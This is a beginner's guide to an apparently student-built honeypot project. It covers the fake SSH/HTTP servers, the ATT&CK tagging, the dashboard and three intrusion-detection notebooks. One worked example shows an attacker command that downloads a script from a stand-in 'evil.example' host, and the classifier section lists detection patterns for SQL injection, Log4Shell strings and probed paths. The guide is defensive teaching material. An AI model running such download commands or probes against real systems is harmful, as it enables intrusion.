


# HoneyBadger explained from zero

This guide assumes you know nothing about the project. Read it in order: each level builds on the previous one. Difficult ideas use the same five-step pattern:

> **Concept** → simple definition → real-life example → how we use it → how to say it to the professor.

---

## Level 1 — What is this project?

### In one sentence

HoneyBadger is a **trap for hackers**: fake servers that look easy to break into, which record everything attackers try, label each action with a standard attack name, and show it live on a dashboard. Next to it, three notebooks use machine learning to test whether attacks can be recognised automatically.

### Why does it exist?

Servers on the internet are attacked all the time, mostly by automated programs (bots). To defend, you need to know **what attackers actually do**: which passwords they try, which commands they type, which web pages they probe. A honeypot lets you watch them safely, because there is nothing real to steal.

### Who could use it?

- A security team, to see which attacks hit their network.
- A teacher or student, to learn how attacks look in practice.
- Researchers, to collect data about attacker behaviour.

### The vocabulary you need

| Word | Simple meaning |
|---|---|
| **Honeypot** | A fake system built to attract attackers and record them |
| **SSH** | The standard way to log into a remote computer by typing commands (port 22; ours uses 8022) |
| **HTTP** | The protocol of websites (port 80; ours uses 8081) |
| **Port** | A numbered "door" on a computer; each service listens on one |
| **Event** | One recorded attacker action: a login, a command, a web request |
| **MITRE ATT&CK** | A public catalogue of attack techniques, each with an ID such as T1110 (brute force) |
| **Brute force** | Trying many passwords until one works |
| **Payload** | A malicious file an attacker tries to download, such as a virus or a crypto-miner |
| **Hash (SHA-256)** | A one-way fingerprint of a text. You can check a password against it but cannot get the password back |
| **Database (PostgreSQL)** | Where events are stored as rows in tables |
| **API** | A set of web addresses other programs use to ask for data (`/events`, `/stats`) |
| **WebSocket** | A connection that stays open so the server can push new events instantly |
| **Docker / Docker Compose** | Packages each part in a "container" and starts them all with one command |
| **Machine learning (ML)** | Programs that learn rules from examples instead of being told the rules |
| **Dataset** | A table of examples used to train and test a model |
| **Label** | The right answer for an example (here: `normal` or `anomaly`) |

### The technologies and what each does

| Technology | Role in HoneyBadger |
|---|---|
| Python + `asyncio` | The backend: one program that handles many connections at once |
| `asyncssh` | Builds the fake SSH server |
| `aiohttp` | Builds the fake website and the API |
| PostgreSQL + SQLAlchemy | Stores events |
| Prometheus + Grafana + Alertmanager | Monitoring graphs and alerts |
| React + TypeScript + Vite | The live dashboard in the browser |
| Docker Compose | Starts the six parts together |
| pandas + scikit-learn + Jupyter/Colab | The machine-learning notebooks |

---

## Level 2 — How it works

### The big picture



### What happens when the project starts

`docker compose up` starts six containers. In the backend container, `backend/entrypoint.sh` first creates the database tables (`alembic upgrade head`), then `backend/main.py` starts everything in order: the two buses, the database connection, the metrics server, the enrichment pipeline, the SSH server, the HTTP server and the API.

### The life of one attack, step by step

Take an attacker who logs in over SSH and types `wget http://evil.example/bot.sh`:

1. **Capture.** `SshHoneypotServer.validate_password()` in `sshd.py` accepts any password. It hashes the password with `hash_password()` and publishes an `auth` event. The fake shell (`FakeShell` in `fakeshell.py`) answers the `wget` with believable output but downloads nothing. A `command` event is published with `payload_url` set.
2. **Bus.** Events go onto the **raw bus** (`EventBus` in `bus.py`), an in-memory queue. Publishing never blocks the sensor, so a slow database can't slow down the trap.
3. **Enrichment.** `EnrichmentPipeline._process_event()` in `pipeline.py` adds a location (`geoip.py`), a MITRE technique and severity (`classify()` in `mitre.py`), counts the credentials (`credentials.py`) and records the payload URL (`payloads.py`).
4. **Storage.** The enriched event becomes one row of the `events` table (`EventRepository.insert()` in `storage.py`).
5. **Live view.** The event goes onto the **enriched bus**; the API (`api.py`) pushes it to every open dashboard over the WebSocket `/ws/events`. The dashboard also asks `/stats` every 15 seconds for totals and charts.



This is the order of the rules in `classify()` (`backend/mitre.py`). The first rule that matches wins.

### How the parts talk to each other

| From → to | How |
|---|---|
| Sensors → pipeline | Python objects on the raw bus (same process) |
| Pipeline → database | SQL through SQLAlchemy |
| Pipeline → API | Python objects on the enriched bus |
| API → dashboard | HTTP JSON (`/events`, `/stats`, `/stats/timeseries`) and a WebSocket |
| Backend → Prometheus | Prometheus scrapes `http://backend:8000/metrics` |

### The machine-learning part

The honeypot has no labels: nobody marks its events "attack" or "normal". So the notebooks use a public labeled dataset (25,192 network connections from Kaggle) to answer three questions, one per pair of students:

1. **Pair 1:** with labels, can a model recognise attacks? (classification)
2. **Pair 2:** without labels, can a model that only learned normal traffic spot attacks? (anomaly detection)
3. **Pair 3:** can attacks be grouped into families an analyst can name? (clustering)

---

## Level 3 — The code

### Folder structure

```text
HoneyBadger/
├── backend/                 Python honeypot (one process)
│   ├── main.py              starts everything
│   ├── sshd.py, fakeshell.py      fake SSH server and shell
│   ├── httpd.py, http_routes.py   fake website and bait pages
│   ├── bus.py               in-memory event queues
│   ├── pipeline.py          enrichment: geoip -> mitre -> credentials -> payloads -> storage
│   ├── mitre.py             rule-based ATT&CK classifier
│   ├── storage.py, db/      PostgreSQL access and tables
│   ├── api.py               REST + WebSocket for the dashboard
│   ├── metrics.py           Prometheus metrics
│   ├── sim/simulate.py      harmless attack simulator for demos
│   └── tests/               pytest tests
├── dashboard/               React dashboard
├── monitoring/              Prometheus, Grafana, Alertmanager configuration
├── tests/attack_scenarios.py  13 live attack scenarios against a running stack
├── notebooks/               ML notebooks: intrusion_analysis, pair1, pair2, pair3
├── data/                    Train_data.csv, Test_data.csv (downloaded, not committed)
├── scripts/run_analysis.py  re-runs the notebooks and checks the results
├── results/                 settings and results saved by the notebooks; predictions/ for test-file outputs
└── docs/                    this guide, demo, results, tests, presentation
```

### The most important files and functions

| File | Key element | What it does |
|---|---|---|
| `backend/main.py` | `run()` | Wires all components and starts them in order |
| `backend/sshd.py` | `SshHoneypotServer.validate_password()` | Accepts any login, hashes the password, publishes an `auth` event |
| `backend/sshd.py` | `hash_password()` | `sha256:` + hex digest; the only form a password is ever stored in |
| `backend/fakeshell.py` | `FakeShell` | Fake answers for `ls`, `whoami`, `uname`, `cat`; intercepts `wget`/`curl` |
| `backend/httpd.py` | `HttpHoneypot`, `recorded_path()` | Serves bait pages, extracts form credentials, records path + query (secrets redacted) |
| `backend/bus.py` | `EventBus.publish()` | Non-blocking queue between components |
| `backend/pipeline.py` | `EnrichmentPipeline._process_event()` | The 7 enrichment steps for one event |
| `backend/mitre.py` | `classify()` | Returns `(technique_id, severity)` with ordered rules |
| `backend/storage.py` | `EventRepository.query()`, `stats()`, `timeseries()` | Reads for the API |
| `backend/api.py` | `create_app()`, `_events()`, `_websocket()` | HTTP routes and the live feed |
| `backend/sim/simulate.py` | `build_attack()`, `run()` | Sends demo attacks and prints recorded techniques |
| `dashboard/src/app.tsx` | `App` | The single-page console |
| `dashboard/src/types.ts` | `EventOut`, `Stats`, `Timeseries` | The data contract with the API |
| `notebooks/pair1_attack_classification.ipynb` | sections 1–6 | Supervised models and evaluation |
| `notebooks/pair2_anomaly_detection.ipynb` | sections 1–6 | Novelty detection |
| `notebooks/pair3_attack_profiling.ipynb` | sections 1–6 | Clustering attacks into families |
| `scripts/run_analysis.py` | `main()` | Re-runs the three notebooks, checks 74 numbers |

### Files to open during the presentation

1. `README.md` (architecture diagram).
2. `backend/mitre.py`, function `classify()`: the rules, short and readable.
3. `backend/sshd.py`, `hash_password()`: shows passwords are never stored in clear.
4. The dashboard in the browser.
5. `notebooks/pair1_attack_classification.ipynb`, sections 4.2 and 4.6.

### The main algorithms, step by step

**Rule-based classification (`mitre.py`).** For each event, test rules in a fixed order and return the first match. Rules use simple checks: "does the command start with `wget` and contain a URL", regular expressions for SQL injection or `${jndi:` (Log4Shell), and a list of paths scanners probe (`/.env`, `/wp-login.php`...).

**Random forest (Pair 1).**
1. Take a random sample of the training rows and a random subset of features.
2. Grow a decision tree: at each step, pick the question (for example "src_bytes ≤ 28?") that best separates attacks from normal rows.
3. Repeat 150 times, each tree on a different sample.
4. To predict, every tree votes; the share of "attack" votes is the attack probability.

**Isolation Forest (Pair 2).**
1. Build random trees by cutting the data at random places on random features.
2. An unusual point gets isolated in very few cuts; a normal point needs many.
3. The fewer cuts needed on average, the higher the anomaly score.

**One-Class SVM (Pair 2).** Draw a flexible boundary around the normal training points; the further a point falls outside it, the more anomalous it is.

**K-Means (Pair 3).**
1. Place 6 centres among the attack rows.
2. Assign every attack to its nearest centre.
3. Move each centre to the average of its attacks; repeat steps 2–3 until nothing changes.
4. Each final centre is an "average attack": high `serror_rate` with flag `S0` reads as a SYN flood, high `rerror_rate` as a port scan, and so on.

---

## Level 4 — Technical understanding

### Key concepts in the five-step pattern

**Honeypot**
- *Simple definition:* a fake system whose only purpose is to be attacked and watched.
- *Real life:* a bait car left in a car park, filled with cameras.
- *In our project:* fake SSH and HTTP services that accept everything and record everything.
- *To the professor:* « Un honeypot n'a aucun utilisateur légitime : tout ce qui le touche est suspect, c'est ce qui rend les données précieuses. »

**MITRE ATT&CK**
- *Simple definition:* a shared dictionary of attack techniques, each with an ID.
- *Real life:* like medical diagnosis codes: everyone uses the same name for the same thing.
- *In our project:* every event gets a technique ID from `mitre.py`, such as T1110 or T1105.
- *To the professor:* « On utilise ATT&CK pour que nos alertes parlent le même langage que les équipes de sécurité. »

**Hashing passwords**
- *Simple definition:* turning a text into a fixed fingerprint that cannot be reversed.
- *Real life:* a fingerprint identifies a person but you cannot rebuild the person from it.
- *In our project:* `hash_password()` stores `sha256:…`; we can still count how often a password is tried.
- *To the professor:* « Même si la base fuit, aucun mot de passe en clair n'est exposé ; c'est vérifié dans le rapport de tests. »

**Event bus**
- *Simple definition:* a queue where one part drops messages and another picks them up.
- *Real life:* a letterbox: the postman never waits for you to be home.
- *In our project:* sensors publish to the raw bus and never wait for the database.
- *To the professor:* « Le bus découple la capture du traitement : si la base ralentit, le piège continue de répondre. »

**Supervised vs unsupervised learning**
- *Simple definition:* supervised learns from labeled examples; unsupervised (here, novelty detection) learns what "normal" looks like without attack labels.
- *Real life:* learning to recognise spam from marked emails, versus noticing an email that looks unlike anything you usually receive.
- *In our project:* Pair 1 is supervised; Pair 2 trains on normal traffic only.
- *To the professor:* « HoneyBadger n'a pas d'étiquettes, c'est pourquoi l'objectif 2 est le plus proche de l'usage réel. »

**Precision, recall, F1**
- *Simple definition:* precision = share of alerts that are real attacks; recall = share of attacks that are caught; F1 = their balance.
- *Real life:* a smoke alarm. Recall: does it ring for every fire? Precision: when it rings, is there really a fire?
- *In our project:* the random forest has precision 1.000 and recall 0.996.
- *To the professor:* « En sécurité, rater une attaque coûte plus cher qu'une fausse alerte, donc on regarde d'abord le rappel, sans laisser exploser les fausses alertes. »

**Data leakage**
- *Simple definition:* information from the test data sneaking into training, which makes scores look better than they are.
- *Real life:* a student who has seen the exam questions.
- *In our project:* identical rows are kept on the same side of the split; preprocessing is fitted on training rows only.
- *To the professor:* « Les lignes identiques sont regroupées et tout le prétraitement est dans un pipeline ajusté sur l'entraînement seulement. »

**Confusion matrix**
- *Simple definition:* a 2×2 table: real class in rows, predicted class in columns.
- *Real life:* a teacher's tally of right and wrong answers by type.
- *In our project:* random forest: 2,690 normal correct, 0 false alarms, 10 missed, 2,339 attacks caught.
- *To the professor:* « La matrice montre le type d'erreur, ce que l'exactitude seule cache. »

### Why these technologies?

- **Python asyncio**: one process can hold thousands of slow attacker connections cheaply.
- **Custom SSH emulation instead of Cowrie**: the team wanted to build and understand the whole chain (a project goal in the README).
- **PostgreSQL**: reliable, indexes on time and source IP make the dashboard queries fast.
- **Docker Compose**: the whole system starts with one command on any laptop.
- **Random forest**: strong on tabular data, robust to skewed values, needs no scaling.
- **Isolation Forest / One-Class SVM**: standard novelty detectors with different ideas of "unusual".

### Alternatives

| Choice | Alternative | Why not (here) |
|---|---|---|
| Custom honeypot | Cowrie, T-Pot | Less to learn; the project goal was to build it |
| Rule-based ATT&CK tagging | An ML classifier on events | No labeled honeypot data to train it |
| Random forest | Gradient boosting, neural networks | Similar accuracy here; less explainable or slower |
| Isolation Forest | Autoencoder | Heavier, harder to explain, needs tuning |

### Limitations (say them before the professor does)

1. The ML results come from a benchmark dataset, not from HoneyBadger's own events.
2. That dataset is old and easier than real traffic; near-perfect scores are partly a property of the data.
3. No normal SSH rows, so SSH false alarms can't be measured.
4. The brute-force vs credential-stuffing rules disagree between README, code and tests (team decision pending), and T1078 is never produced.
5. The honeypot doesn't record bytes or how connections ended, which the models rely on most.
6. Docker was not available in the test environment; the full stack was tested without it.

### How performance could be improved

- Record bytes exchanged, session duration and connection outcome in HoneyBadger.
- Make credential-attack classification use history per source IP.
- Label a sample of real HoneyBadger sessions and evaluate on them with a time-based split.
- Apply the Pair 3 attack families to HoneyBadger sessions and compare them with the technique the rules already assign.

### Using it in a real environment

Run the stack on a cheap cloud server with only ports 8022 and 8081 open to the internet, keep the database and dashboard private, and change the Grafana password. Collect a period of traffic, then use Pair 2's approach: learn from a known-quiet period, alert on what is unusual.
